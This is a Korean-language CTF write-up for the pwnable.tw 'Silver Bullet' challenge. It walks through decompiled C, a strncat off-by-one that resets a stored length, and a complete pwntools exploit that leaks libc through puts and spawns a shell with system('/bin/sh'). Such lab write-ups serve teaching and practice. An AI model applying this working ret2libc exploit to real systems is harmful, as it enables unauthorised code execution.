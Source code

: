 ```yaml
---
title: "[pwnable.tw]Silver Bullet"
date: 2020-1-26
ctf: Pwnable.tw
layout: post
---
```


3개 메뉴로 구성되어있는 바이너리다.

1번 메뉴를 보면 입력받은 걸 s에 저장한다.근데 존재하면 그냥 꺼집니다. 그리고 *(s+12)에는 사이즈를 저장한다.

```c
int __cdecl create_bullet(char *s)
{
  size_t v2; // ST08_4

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 48u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *(s + 12) = v2;
  return puts("Good luck !!");
}
```

2번 메뉴에서는 추가로 더 값을 쓸 수 있다. 여기서 strncat이라는 함수를 사용해서 값을 이어붙일 수 있다. 그런데 48을 넘길 수는 없다.

```c
int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 48u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *(dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *(dest + 12));
  strncat(dest, &s, 48 - *(dest + 12));
  v3 = strlen(&s) + *(dest + 12);
  printf("Your new power is : %u\n", v3);
  *(dest + 12) = v3;
  return puts("Enjoy it !");
}
```

3번 메뉴인데 특이한점은 *(a1+48) 즉 사이즈만큼 계속 빼준다. *a2의 초기값은 2147483647이다.

```c
signed int __cdecl beat(int a1, _DWORD *a2)
{
  signed int result; // eax

  if ( *a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *a2 -= *(a1 + 48);
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}
```

strncat에서 off-by-one 취약점이 일어난다. 이 함수를 보면 a와b의 문자열을 합치는데 a뒤의 널바이트를 제거하고 b뒤에 널바이트를 붙인다. 1번 메뉴에서 47개를 입력하고 2번 메뉴에서 1개를 입력하면 널바이트가 추가된다. 48개 뒤에는 *(s+12)위치인데 이 위치에는 사이즈를 저장한다. 여기서 사이즈를 초기화 시킬 수 있다. 그러면 입력을 더 받을 수 있고 ROP가 가능하다. 

puts를 leak해주고 main으로 돌아가려면 3번메뉴에서 main함수에서 return 1을 해줘서 다시 초기 main으로 돌아올 수 있다. 아까 했던거 처럼 똑같이해줘서 리턴을 원하는곳으로 갈 수 있으므로 원샷 날리던지 system함수로 쉘을 띄우면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./silver_bullet')
p = process('./silver_bullet')
p = remote('chall.pwnable.tw',10103)
#libc = e.libc
libc = ELF('./libc_32.so.6')
pebx = 0x08048475 # pop ebx ; ret

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

# buf = 0x34 = 52
payload = 'A'*7 # 'A'*47 + A + '\x00' + 'A'*7 = 56
payload += p32(e.plt['puts']) + p32(pebx) + p32(e.got['puts']) # ret
payload += p32(e.symbols['main'])
p.sendlineafter(':','2')
p.sendafter(':',payload)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

puts = u32(p.recvuntil('\xf7')[-4:])
log.info('puts : ' + hex(puts))
libc_base = puts - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

oneshot=[0x3a819,0x5f065,0x5f066]
payload2 = 'A'*7
#payload2 += p32(libc_base + 0x3a819) #one_shot
payload2 += p32(libc_base + libc.symbols['system']) + p32(pebx) + p32(libc_base + libc.search('/bin/sh\x00').next())
p.sendlineafter(':','2')
p.sendafter(':',payload2)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

p.interactive()
```


